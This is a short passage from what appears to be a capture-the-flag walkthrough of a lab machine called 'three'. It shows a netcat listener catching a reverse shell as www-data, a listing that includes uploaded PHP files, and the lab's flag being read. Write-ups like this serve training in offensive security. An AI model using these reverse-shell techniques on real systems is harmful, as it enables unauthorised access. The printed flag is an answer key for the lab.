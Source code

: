 - Result: You listener...

```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.42] from (UNKNOWN) [10.129.6.204] 52738
bash: cannot set terminal process group (1532): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$ 

www-data@three:/var/www/html$ ls 
ls 
gk.php
gk2.php
images
index.php

www-data@three:/var/www/html$ cd ..
cd ..

www-data@three:/var/www$ ls
ls
flag.txt
html

www-data@three:/var/www$ cat flag.txt
cat flag.txt
a980d99281a28d638ac68b9bf9453c2b
```

![Pasted image 20240224162434](https://github.com/GregKedrovsky/Hacking/assets/26492233/ace71d25-628a-4cd7-bb20-84b8653d8f2c)

[walkthrough_014_three.pdf](https://github.com/GregKedrovsky/Hacking/files/14625850/walkthrough_014_three.pdf)
